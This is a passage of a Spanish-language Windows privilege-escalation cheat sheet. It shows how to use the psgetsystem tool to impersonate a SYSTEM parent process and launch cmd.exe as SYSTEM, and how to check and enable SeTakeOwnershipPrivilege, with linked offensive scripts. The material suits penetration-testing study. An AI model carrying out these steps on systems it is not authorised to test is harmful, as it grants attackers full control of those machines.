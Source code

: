 ```c
PS C:\> tasklist
```

**Usando la herramienta psgetsystem:**

Ahora usaremos la herramienta **psgetsystem** , que se puede encontra [**psgetsystem**](https://github.com/decoder-it/psgetsystem) para suplantar los privilegios **de SISTEMA** del proceso padre identificado y lanzar un comando como SISTEMA.

```c
PS> . .\psgetsys.ps1
```

**Suplantar al SISTEMA mediante el ID del proceso principal (PPID):**

```shell
PS> ImpersonateFromParentPid -ppid <parentpid> -command <command to execute> -cmdargs <command arguments>
```

Por ejemplo, para iniciar **cmd.exe** como SYSTEM, deberá ejecutar lo siguiente:

```c
ImpersonateFromParentPid -ppid 612 -command "C:\Windows\System32\cmd.exe" -cmdargs ""
```

- **-ppid** → Especifica el ID del proceso principal (el ID del proceso del SISTEMA obtenido anteriormente).
- **-comando** → El comando a ejecutar (en este caso, `cmd.exe`).
- **-cmdargs** → Cualquier argumento de comando adicional (opcional).

## SeTakeOwnershipPrivilege

### Leveraging the Privilege

#### Reviewing Current User Privileges

- [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)

```c
PS C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                                              State
============================= ======================================================= ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                                Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                          Disabled
```

#### Enabling SeTakeOwnershipPrivilege

Observa en la salida que el privilegio no está habilitado. Podemos habilitarlo usando este script que se detalla en esta entrada del blog, así como este otro que se basa en el concepto inicial.
-  [SeTakeOwnershipPrivilege](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1)
